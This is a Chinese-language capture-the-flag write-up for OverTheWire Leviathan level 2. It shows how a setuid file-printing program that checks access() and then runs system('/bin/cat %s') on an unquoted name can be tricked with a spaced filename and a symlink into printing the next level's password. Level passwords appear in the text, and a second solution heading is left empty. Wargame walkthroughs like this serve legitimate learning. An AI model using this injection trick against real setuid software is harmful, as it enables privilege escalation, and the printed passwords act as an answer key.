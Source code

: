 ougahZi8Ta

进来看样子给定一个打印文件的程序，`ls -l`查看一下发现`setuid`已设置，owner是`leviathan3`，所以会以其权限来运行。看样子是让我们利用这个程序打印`leviathan3`的密码，但是实际试了会失败，估计是跟权限相关：
```
leviathan2@leviathan:~$ ./printfile /etc/leviathan_pass/leviathan3
You cant have that file...
```

一开始觉得这关应该是逆向，一开始的ltrace只是运气好，所以直接gdb了。发现出来的汇编代码还蛮长的，一时看不出所以然，还在想要不要复习下x86汇编。又突然一想，为什么一定要逆向呢？首先这关不是输密码，逆向并不能从从中刨出密码；其次就算我真的有通天本事能够找到控制程序的办法，我也是没有写权限的，什么都做不了。突然不知道如何展开。

于是果断决定谷歌。因为我意识到一直以来我所欠缺的都是经验的传承与交流。工科学校的氛围适合学工科，就在于能有无数同行一起争论，互相传授技术与技巧，也有更多前人传承下来的经验。而我一直没能去这样的地方。

我自认我并不欠缺理解力，说实话从开始学计算机到现在我几乎没有遇到过理解力不够的情况，不管是很多人深恶痛绝的指针还是编译原理或者算法。但是每当需要上手操作的时候我总会因为缺乏技巧而力不从心，因为将思维转化为实践需要经验，经验需要别人给予同时自己大量练习。计算机不是像物理数学那样靠理解就可以大步向前的学科。

事实证明直接谷歌是对的。这关需要用到非常tricky的漏洞，这样的漏洞能够自己观察出来并开始突破固然是很有成就感的，但是我没有那么多时间，我的时间都在本科被浪费掉了。

想要成为一个大神的话，你需要见识过足够多的漏洞，知晓足够多的exploit的办法，而这些技艺每一个都是曾经某个狂热爱好者或者天才琢磨很久才得出来的，我不可能一次次模拟这个过程，我需要做的是尽量直接学习前人的成果，等到某个成熟的结果才能自己产出。就好像现代人学习物理，就算再厉害也不可能说让他避免教科书剧透前人的成果，要自己去从零悟出牛顿定律到宇称不守恒的知识，这是搞自己。

而我一点也不厉害，也没有前辈指引，所以初级阶段时，如果毫无头绪，直接去学习正确的思路才是更有效率的学习方式。

废话说太多了，开始吧。首先我参考了两篇博客[1][2]，他们都对这题做出了高度评价。第一篇更厉害一点，他给出了两个解法，但是这里先分析：

### 分析
首先我们应该先观察这个程序，所以自己创建一个文本并测试：
```shell
leviathan2@leviathan:~$ mkdir /tmp/mingy2 && cd /tmp/mingy2
leviathan2@leviathan:/tmp/mingy2$ touch test.txt
leviathan2@leviathan:/tmp/mingy2$ vim test.txt 
leviathan2@leviathan:/tmp/mingy2$ cd
leviathan2@leviathan:~$ ./printfile /tmp/mingy2/test.txt 
This is a plain text file.
```
发现可以正常运行，使用strace和ltrace分别跟踪[3]可以得到：
```c
leviathan2@leviathan:~$ strace ./printfile /tmp/mingy2/test.txt
execve("./printfile", ["./printfile", "/tmp/mingy2/test.txt"], [/* 17 vars */]) = 0
strace: [ Process PID=6254 runs in 32 bit mode. ]
brk(NULL)                               = 0x804b000
fcntl64(0, F_GETFD)                     = 0
fcntl64(1, F_GETFD)                     = 0
fcntl64(2, F_GETFD)                     = 0
access("/etc/suid-debug", F_OK)         = -1 ENOENT (No such file or directory)
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
mmap2(NULL, 8192, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0xf7fd2000
access("/etc/ld.so.preload", R_OK)      = -1 ENOENT (No such file or directory)
open("/etc/ld.so.cache", O_RDONLY|O_CLOEXEC) = 3
fstat64(3, {st_mode=S_IFREG|0644, st_size=36357, ...}) = 0
mmap2(NULL, 36357, PROT_READ, MAP_PRIVATE, 3, 0) = 0xf7fc9000
close(3)                                = 0
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/lib32/libc.so.6", O_RDONLY|O_CLOEXEC) = 3
read(3, "\177ELF\1\1\1\3\0\0\0\0\0\0\0\0\3\0\3\0\1\0\0\0\0\204\1\0004\0\0\0"..., 512) = 512
fstat64(3, {st_mode=S_IFREG|0755, st_size=1787812, ...}) = 0
mmap2(NULL, 1796604, PROT_READ|PROT_EXEC, MAP_PRIVATE|MAP_DENYWRITE, 3, 0) = 0xf7e12000
mmap2(0xf7fc3000, 12288, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x1b0000) = 0xf7fc3000
mmap2(0xf7fc6000, 10748, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_ANONYMOUS, -1, 0) = 0xf7fc6000
close(3)                                = 0
mmap2(NULL, 8192, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0xf7e10000
set_thread_area({entry_number:-1, base_addr:0xf7e10700, limit:1048575, seg_32bit:1, contents:0, read_exec_only:0, limit_in_pages:1, seg_not_present:0, useable:1}) = 0 (entry_number:12)
mprotect(0xf7fc3000, 8192, PROT_READ)   = 0
mprotect(0x8049000, 4096, PROT_READ)    = 0
mprotect(0xf7ffc000, 4096, PROT_READ)   = 0
munmap(0xf7fc9000, 36357)               = 0
access("/tmp/mingy2/test.txt", R_OK)    = 0
geteuid32()                             = 12002
geteuid32()                             = 12002
setreuid32(12002, 12002)                = 0
rt_sigaction(SIGINT, {sa_handler=SIG_IGN, sa_mask=[], sa_flags=0}, {sa_handler=SIG_DFL, sa_mask=[], sa_flags=0}, 8) = 0
rt_sigaction(SIGQUIT, {sa_handler=SIG_IGN, sa_mask=[], sa_flags=0}, {sa_handler=SIG_DFL, sa_mask=[], sa_flags=0}, 8) = 0
rt_sigprocmask(SIG_BLOCK, [CHLD], [], 8) = 0
clone(child_stack=NULL, flags=CLONE_PARENT_SETTID|SIGCHLD, parent_tidptr=0xffffd360) = 6255
waitpid(6255, This is a plain text file.
[{WIFEXITED(s) && WEXITSTATUS(s) == 0}], 0) = 6255
rt_sigaction(SIGINT, {sa_handler=SIG_DFL, sa_mask=[], sa_flags=0}, NULL, 8) = 0
rt_sigaction(SIGQUIT, {sa_handler=SIG_DFL, sa_mask=[], sa_flags=0}, NULL, 8) = 0
rt_sigprocmask(SIG_SETMASK, [], NULL, 8) = 0
--- SIGCHLD {si_signo=SIGCHLD, si_code=CLD_EXITED, si_pid=6255, si_uid=12002, si_status=0, si_utime=0, si_stime=0} ---
exit_group(0)                           = ?
+++ exited with 0 +++
leviathan2@leviathan:~$ ltrace ./printfile /tmp/mingy2/test.txt
__libc_start_main(0x804852b, 2, 0xffffd774, 0x8048610 <unfinished ...>
access("/tmp/mingy2/test.txt", 4)                                     = 0
snprintf("/bin/cat /tmp/mingy2/test.txt", 511, "/bin/cat %s", "/tmp/mingy2/test.txt") = 29
geteuid()                                                             = 12002
geteuid()                                                             = 12002
setreuid(12002, 12002)                                                = 0
system("/bin/cat /tmp/mingy2/test.txt"This is a plain text file.
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                = 0
+++ exited (status 0) +++
```
`strace`和`ltrace`是两个跟踪程序运行的工具，前者跟踪系统调用和信号产生的情况，后者则跟踪库函数调用情况。说实话以我的水平在`strace`中的大部分信息都看不懂。但是可以看ltrace的结果来参照strace的结果。

首先是`access("/tmp/mingy2/test.txt", 4)`，结合`strace`中的`access("/tmp/mingy2/test.txt", R_OK)    = 0`，这是在检测是否具有读权限，`4`代表读也刚好吻合。但是这个函数需要说明。一句话，这个函数是“假设进程是setuid的，看其real uid的用户是否能够执行某个权限”（摘自`access()` man page）。而什么是real uid和effective uid，可以先看这个[getuid geteuid](http://www.361way.com/linux-setuid-seteuid/5940.html)。简单来说，real uid是invoke这个进程的人，effective uid是进程运行时“希望被当做”的那个人。权限位有`setuid`位，库函数里也有`setuid()`这个函数，但是这两个东西实际上影响的是effective uid（effective uid 设为owner）。这样一切就说得通了，access发现我们试图利用setuid位去做本没有权限做的事，就会返回-1。我一开始看了一篇中文资料，他说的完全是反的，给我纠结了一早上。我真的服了这种中文博客，写东西就尼玛知道抄，没有walkthrough只会列一串名词就算了，还连自己写了个什么都不知道，误人子弟。

下一条`snprintf`，是往第一个参数的指针处写字符串，虽然不知道为什么往一个字符串写一样的内容，但是重点应该在后三条。`geteuid()`是get effective uid的意思，而12002刚好是leviathan2的uid，这不奇怪，因为我们实际上是在运行`ltrace`，ltrace没有设置setuid。运行了两次，不知道中间发生了什么。然后`setreuid(12002, 12002)`就很重要了，传参给这个函数的两个参数`ruid`和`euid`，代表把当前进程的real uid 和effective uid设成给定的值，这里相当于把程序的两个uid都改成了euid，推测之前`geteuid()`运行两次是赋值给了两个变量，然后用在这里。然后`system()`运行命令行`cat`成功。

当然我们也应该试一下访问leviathan3的密码时发生了什么，发生的事很直观，`access()`发现我们真实身份（real uid）是12002，和effective uid 12003不匹配，所以返回-1，然后直接说不给看文件：
```c
leviathan2@leviathan:~$ ltrace ./printfile /etc/leviathan_pass/leviathan3
__libc_start_main(0x804852b, 2, 0xffffd764, 0x8048610 <unfinished ...>
access("/etc/leviathan_pass/leviathan3", 4)                           = -1
puts("You cant have that file..."You cant have that file...
)                                    = 27
+++ exited (status 1) +++
```
这样一切都比较清楚了，有经验的人应该一眼就看出怎么破解，但我还是需要提示。

### Solution 1
首先有个人建了一个名字带空格的文件`touch "a and b.txt"`让那个程序来读：
```c
leviathan2@leviathan:/tmp/mingy2$ ltrace ~/printfile "a and b.txt" 
__libc_start_main(0x804852b, 2, 0xffffd744, 0x8048610 <unfinished ...>
access("a and b.txt", 4)                                              = 0
snprintf("/bin/cat a and b.txt", 511, "/bin/cat %s", "a and b.txt")   = 20
geteuid()                                                             = 12002
geteuid()                                                             = 12002
setreuid(12002, 12002)                                                = 0
system("/bin/cat a and b.txt"/bin/cat: a: No such file or directory
/bin/cat: and: No such file or directory
/bin/cat: b.txt: No such file or directory
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                = 256
+++ exited (status 0) +++
```
会发现，`access()`能正确识别这个文件名，可是`system()`执行时的`cat`却会因为空格把他们当成三个文件来执行。这下就有趣了。这个程序只用一个`access()`来控制访问权限，只要能骗过`access()`，剩下的命令会被原模原样执行，要利用的就是`cat`的这一特点。

接刚才，我们有个文件叫`"a and b.txt"`，然后再创建一个软链接叫做`a`，`ln -s /etc/leviathan_pass/leviathan3 a`指向密码文件，硬链接不行，应该是因为写权限的限制。然后再运行：
```
leviathan2@leviathan:/tmp/mingy2$ ~/printfile  "a and b.txt"
Ahdiemoo1j
/bin/cat: and: No such file or directory
/bin/cat: b.txt: No such file or directory
```
惊了，密码出现了！

原因很显然，`access()`检查发现我们（leviathan2）有权使用`"a and b.txt"`，所以返回0判断通过，没想到`cat`这个二五仔把三个部分分开读了，单独的`a`其实是个软链接，因为此时操作系统认为运行者是leviathan3，所以成功把密码套了出来。注意运行时不能用`ltrace`来看，因为`ltrace`没有setuid。

初看这个解法真的惊艳，可能是因为我第一次见识CTF吧。话又说回来最初是什么样的人会注意到这种漏洞并加以利用。。。可能这是某个人的灵光一闪，而我们需要站在他的肩膀上。

# Solution 2


# Reference
[1] https://www.abatchy.com/2017/09/overthewire-leviathan

[2] https://jhalon.github.io/over-the-wire-leviathan/

[3] https://blog.csdn.net/uisoul/article/details/83143290